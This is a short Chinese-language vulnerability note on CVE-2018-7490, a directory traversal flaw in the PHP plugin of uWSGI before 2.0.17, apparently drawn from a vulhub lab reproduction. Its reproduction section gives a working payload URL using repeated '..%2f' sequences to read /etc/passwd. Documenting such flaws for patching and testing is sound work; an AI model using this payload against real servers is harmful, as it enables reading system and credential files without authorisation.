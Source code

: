 （CVE-2018-7490）uWSGI PHP目录穿越漏洞
======================================

一、漏洞简介
------------

uWSGI是一款Web应用程序服务器，它实现了WSGI、uwsgi和http等协议，并支持通过插件来运行各种语言。

uWSGI
2.0.17之前的PHP插件，没有正确的处理`DOCUMENT_ROOT`检测，导致用户可以通过`..%2f`来跨越目录，读取或运行`DOCUMENT_ROOT`目录以外的文件。

二、漏洞影响
------------

uWSGI \< 2.0.17

三、复现过程
------------

访问`http://www.0-sec.org:8080/..%2f..%2f..%2f..%2f..%2fetc/passwd`，成功读取文件：

![1.png](./.resource/(CVE-2018-7490)uWSGIPHP目录穿越漏洞/media/rId24.png)

参考链接
--------

> https://github.com/vulhub/vulhub/blob/master/uwsgi/CVE-2018-7490/README.zh-cn.md
